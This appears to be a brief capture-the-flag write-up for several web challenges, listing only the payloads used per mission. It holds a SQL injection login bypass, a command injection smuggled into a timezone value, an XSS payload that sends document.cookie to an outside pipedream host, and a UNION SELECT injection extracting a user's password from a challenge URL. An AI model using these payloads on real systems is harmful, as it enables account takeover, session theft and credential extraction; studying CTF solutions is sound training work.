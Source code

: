 # WEB

## First Exploit - Mission 1: 
```sql
dasda' oR '1'='1;--
```

## Second exploit - Mission 2:
```bash
"Europe/Rome" && flag && echo < 'emily'
```

## Third exploit - Mission 3: Central Lyrics
```url
<script>fetch("https://en5tc1p4vx7hf.x.pipedream.net/"%2Bdocument.cookie)</script>
```
## Sixth exploit - Mission 6: Do ut des
```url

https://web6.chall.necst.it/menu.php?choice=' UNION SELECT NULL,password,3 FROM users WHERE username ='Ramon' --
```
